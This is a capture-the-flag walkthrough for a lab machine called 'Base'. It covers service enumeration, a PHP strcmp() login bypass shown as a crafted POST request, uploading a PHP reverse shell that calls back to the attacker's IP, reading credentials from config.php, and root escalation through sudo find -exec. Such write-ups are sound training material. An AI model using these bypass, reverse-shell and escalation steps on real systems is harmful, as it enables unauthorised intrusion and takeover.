 # Base
## User Flag
When starting a box, it's always a good idea to run nmap to enumerate services on the target. Running `nmap -sV -sC 10.129.95.184`
shows us the service versions and might point us toward known vulnerabilities.

![Nmap results TCP](images/1image.png)

Port 22 is running ssh, port 80 is running http.

Let’s open BurpSuite and set `http://10.129.95.184/` as the target.  We are taken to this login page: 

![Webpage](images/2image.png)

We can click on the Login button to take us to this page:

![Login Page](images/3image.png)

The path to the login page is `http://10.129.95.184/login/login.php`. We can also try going to `http://10.129.95.184/login` to see all of the files in the login folder. We see three: 

![login folder](images/4image.png)

Notice the `login.php.swp` file. Maybe there is some information that could help us in that. If we download the file and run `more login.php.swp`, we can scroll down to find that the password and username are being checked using the `strcmp()` function. 

![swp file](images/5image.png)

`strcmp()` is known to be unsafe, so maybe there is a way to use that knowledge to bypass logging in. 

This function is known to be unsafe because it only works on strings that have been successfully null terminated. We can figure out how to bypass the login using this [page here](https://rst.hashnode.dev/bypassing-php-strcmp). We can intercept a login with BurpSuite and then modify the post request as follows: 

```
POST /login/login.php HTTP/1.1
Host: 10.129.95.184
Content-Length: 31
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.129.95.184
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.95.184/login/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=p2n8q45ggpk9uuqfumnmhv3is6
Connection: keep-alive

username[]=test&password[]=test
```
We can send this to the server and it takes us to this page: 

![upload.php page](images/6image.png)

We can upload files here but we’re not really sure where they are stored. To find this out, we can try using gobuster to get a filetree for the web service. For example: 

`gobuster dir -u 10.129.95.184 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

It turns out they are stored in the `/_uploaded` folder: 

![/_uploaded page](images/7image.png)

We can try setting up a php reverse shell. Let’s upload the `php-reverse-shell.php` file from `/usr/share/webshells/php/php-reverse-shell.php`, changing the IP address to our `tun0` ip address and the port to port `4444` (could be whatever port you want). 

Then we visit `http://10.129.95.184/_uploaded/php-reverse-shell.php` to trigger the reverse shell, giving us access. Once in, we can run `script /dev/null -c bash` to upgrade the shell: 

![listener](images/8image.png)

Navigating to the `/home` directory, we see there is a user named `john`

![/home/john](images/9image.png)

However, we have no information on a password for `john`. We can try navigating to `/var/www/html` to see if there is anything there for us. Checking the `config.php` file, we actually find the administrator password:

![config.php](images/10image.png)

So now we know how to log into the website properly without the `strcmp()` exploit from earlier. If we use this password to login as `john` (just run `su john` and then input the password), we are successful. Now we can go back to `/home/john/user.txt` to get our user flag. 

## Root Flag
To see what commands we can run as john, we run `sudo -l`, to show us this:

![sudo capabilities for john](images/11image.png)

A quick look at the manual for find (run `man find`) shows us that we can execute commands using the `-exec` flag: 

![manual for find](images/12image.png)

We know we can find the root flag in the `/root` folder with the name `root.txt`. Thus, if we use the following command: `sudo find /root -name '*.txt' -exec cat {} ';'`

We should be able to get the root flag, which we do. 